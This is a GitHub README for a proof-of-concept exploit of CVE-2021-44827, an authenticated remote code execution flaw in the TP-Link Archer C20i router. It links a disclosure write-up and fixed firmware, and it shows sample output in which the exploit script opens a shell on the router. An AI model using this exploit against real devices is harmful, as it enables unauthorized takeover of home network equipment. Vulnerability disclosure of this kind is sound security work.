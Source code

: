 # CVE-2021-44827
A PoC for CVE-2021-44827 - authenticated remote code execution in Tp-link Archer C20i

Write-up: [https://full-disclosure.eu/reports/2022/CVE-2021-44827-tplink-authenticated-remote-code-execution.html](https://full-disclosure.eu/reports/2022/CVE-2021-44827-tplink-authenticated-remote-code-execution.html)

# Example

<pre>
$ python exploit.py
[error]0
[error]0
Run post_exploit_cmd
Trying 192.168.0.1...
Connected to 192.168.0.1
Escape character is '^]'

~ #
~ # ls
web      usr      sbin     mnt      lib      dev
var      sys      proc     linuxrc  etc      bin
~ # id
sh: id: not found
~ # uname -a
sh: uname: not found
~ # cat /proc/version
Linux version 2.6.36 (root@localhost.localdomain) (gcc version 4.6.3 (Buildroot 2012.11.1) ) #1 Tue Feb 21 14:47:04 HKT 2017
</pre>

# Fix

Fixed in [https://static.tp-link.com/upload/firmware/2022/202202/20220217/Archer%20C20i(EU)_V1_220107.zip](https://static.tp-link.com/upload/firmware/2022/202202/20220217/Archer%20C20i(EU)_V1_220107.zip)
